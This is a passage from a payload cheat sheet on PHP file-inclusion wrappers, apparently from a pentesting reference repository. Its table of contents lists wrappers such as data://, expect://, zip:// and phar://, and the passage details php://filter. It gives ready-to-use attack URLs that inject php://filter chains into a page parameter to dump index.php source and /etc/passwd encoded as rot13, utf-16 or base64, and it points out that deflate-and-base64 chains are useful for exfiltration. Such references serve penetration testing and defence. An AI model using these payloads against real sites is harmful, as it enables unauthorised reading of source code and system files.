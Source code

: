# Inclusion Using Wrappers

A wrapper in the context of file inclusion vulnerabilities refers to the protocol or method used to access or include a file. Wrappers are often used in PHP or other server-side languages to extend how file inclusion functions, enabling the use of protocols like HTTP, FTP, and others in addition to the local filesystem.

## Summary

- [Wrapper php://filter](#wrapper-phpfilter)
- [Wrapper data://](#wrapper-data)
- [Wrapper expect://](#wrapper-expect)
- [Wrapper input://](#wrapper-input)
- [Wrapper zip://](#wrapper-zip)
- [Wrapper phar://](#wrapper-phar)
    - [PHAR Archive Structure](#phar-archive-structure)
    - [PHAR Deserialization](#phar-deserialization)
- [Wrapper convert.iconv:// and dechunk://](#wrapper-converticonv-and-dechunk)
    - [Leak file content from error-based oracle](#leak-file-content-from-error-based-oracle)
    - [Leak file content inside a custom format output](#leak-file-content-inside-a-custom-format-output)
- [References](#references)


## Wrapper php://filter

The part "`php://filter`" is case insensitive

| Filter | Description |
| ------ | ----------- |
| `php://filter/read=string.rot13/resource=index.php` | Display index.php as rot13 |
| `php://filter/convert.iconv.utf-8.utf-16/resource=index.php` | Encode index.php from utf8 to utf16  |
| `php://filter/convert.base64-encode/resource=index.php` | Display index.php as a base64 encoded string |


```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

Wrappers can be chained with a compression wrapper for large files.

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`:

- Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- deflate then `base64encode` (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

